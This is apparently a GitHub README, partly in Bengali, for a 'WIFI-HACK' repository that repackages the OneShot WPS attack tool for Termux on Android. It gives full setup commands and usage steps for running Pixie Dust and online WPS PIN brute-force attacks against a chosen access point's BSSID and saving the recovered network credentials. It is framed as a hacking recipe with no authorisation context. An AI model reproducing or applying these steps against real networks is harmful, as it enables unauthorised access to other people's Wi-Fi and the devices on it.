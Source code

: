 # Setup
```
pkg update && pkg upgrade -y
pkg install git -y
pkg install python -y
git clone https://github.com/ALAMIN-2K07/WIFI-HACK
cd WIFI-HACK
ls
chmod +x oneshot.py
ls
bash installer.sh
```
```
cd WIFI-HACK
```
```
ls
```
```
sudo python oneshot.py -i wlan0 -K
```

## [Brute Force]
```
cd WIFI-HACK
```
```
ls
```
```
sudo python oneshot.py -i wlan0 -K
```
এখন আমরা BSSID কপি করব, যা দেখতে কিছুটা MAC অ্যাড্রেসের মতো হবে। Example: B4:0F:3B:57:F0:90 -B

তারপর আমরা Ctrl + C চাপব, এতে টুলটি বন্ধ হয়ে যাবে।

তারপর আমরা ```cd```কমান্ড দিয়ে হোম ডিরেক্টরিতে চলে যাব।
```
cd WIFI-HACK
```
```
sudo python oneshot.py -i wlan0 -b (BSSID) -B
```

## [Termux](https://termux.com/)
Please note that root access is required.  
#### Download BusyBox....https://github.com/W8SOJIB/W8RootWifiHK/raw/main/BusyBox%20Free_64.apk

# Usage
```
 oneshot.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 oneshot.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 oneshot.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running OneShot with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
# Acknowledgements

